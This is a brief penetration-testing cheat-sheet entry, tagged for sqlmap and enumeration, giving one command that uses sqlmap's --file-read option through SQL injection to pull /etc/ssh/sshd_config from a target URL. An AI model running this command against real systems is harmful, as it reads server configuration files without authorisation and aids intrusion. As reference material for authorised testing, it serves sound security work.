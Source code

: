 # Linux

Search Tag: #sqlmap #enumeration-and-discovery

## Automated

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/ssh/sshd_config"
```